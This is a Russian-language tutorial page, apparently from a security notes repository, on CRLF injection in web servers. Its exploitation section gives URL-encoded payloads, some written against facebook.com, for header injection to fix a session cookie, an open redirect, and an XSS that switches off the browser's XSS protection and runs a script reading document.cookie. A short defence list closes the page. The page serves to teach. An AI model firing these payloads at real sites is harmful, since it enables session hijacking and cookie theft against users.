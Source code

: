 # Carriage Return Line Feed

Уязвимость веб-серверов, с недостаточной фильтрацией данных пользователя, переданных в **http**-запросе.

Системы, использующие **ASCII**-кодировку, применяют управляющие символы **CR**(0x0D) и **LF**(0x0A) для возврата каретки и перевода строки соответственно.  

Как мы помним **http** протокол (<2.0) - текстовый, где разделение строк происходит как раз символами `\r\n`(=CRLF).  

## Эксплуатация

### Установка кастомных заголовков

Допустим мы имеем уязвимый веб-сервер на хосте `example.com`, который некорректно обрабатывает **Request URI**, то есть декодирует, применяя метасимволы.  

В итоге путь `/%0aSet-Cookie:xxx=xxx%0aX:/%2e%2e/test` будет преобразован в  

    /
    Set-Cookie: xxx=xxx
    X: /../test

Тогда инъекция будет представлять из себя **URL**:  
`www.facebook.com/%0aSet-Cookie:xxx=xxx%0aX:%2f%2e%2e/test`  
позволяя проставить перешедшему по ссылке куку с нужным значением. Так можно применять **Session fixation**, например.  

> Facebook тут не случайно :)

### Open redirect

`www.facebook.com/%2fwww.google.com%2f%2e%2e/`

### XSS

Для проведения **XSS** нужно сломать значение заголовка **Location** в ответе, чтобы не произошло редиректа, после чего можно задать нужный **Content-type**, отключить **XSS** защиту браузера заголовком `X-XSS-Protection: 0` и отбив пустую строку для того, чтобы браузер последующую часть воспринимал как тело ответа.  

То есть  
`www.facebook.com/%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../test`  

Даст  

    HTTP/1.1 301 Moved Permanently
    Location: //xxx:1/
    X-XSS-Protection: 0
    Content-Type: text/html
    Connection: Close

    <script>alert()</script>/../../../../test/
    Content-Type: text/html; charset=utf-8
    Connection: keep-alive ...
    ...

В итоге браузер выполнит `<script>alert()</script>`.

## Защита

* Следить за обновлениями веб-сервера
* Не писать собственные реализации, если ты не Сысоев

[← Назад](../README.md)